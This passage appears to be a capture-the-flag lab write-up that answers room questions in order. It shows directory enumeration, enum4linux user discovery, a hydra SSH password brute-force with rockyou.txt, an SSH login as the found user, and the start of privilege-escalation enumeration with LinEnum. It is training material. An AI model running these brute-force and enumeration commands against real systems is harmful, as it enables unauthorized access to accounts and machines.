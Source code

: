 ```sh
/development          (Status: 301) [Size: 316] [--> http://10.10.67.50/development/]
```
A=`development`


## Q3
- User brute-forcing to find the username & password.  

- use enum4linux program to find users.  

```sh
	enum4linux 10.10.67.50 |tee enumeration.txt
```

```sh

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)

```
## Q4
What is the username?  
A=`jan`

## Q5
What is the password?  
- here we are going to use hydra.  

```sh

	hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.67.50 ssh
```

```sh
	[22][ssh] host: 10.10.66.49   login: jan   password: ....
```
A="...."

## Q6
What service do you use to access the server.  
A="`SSH` 



## Q7
- Enumerate the machine to find any vectors for privilege escalation.  

	`log in as jan`

```sh
	ssh jan@10.10.205.103
	passwod:...
	cd .. to get to the home directory where you will find kay as a user
```
- But can't read the file 'pass.bat' in kay.  
- I will open a new terminal in my machine.  
- I will use LinEnum To get escalated privilege.  
```sh
	git clone https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```
After downloading the linEnum.sh script, i  copied  the script to the target machine.
To do that I’ll use SCP.  
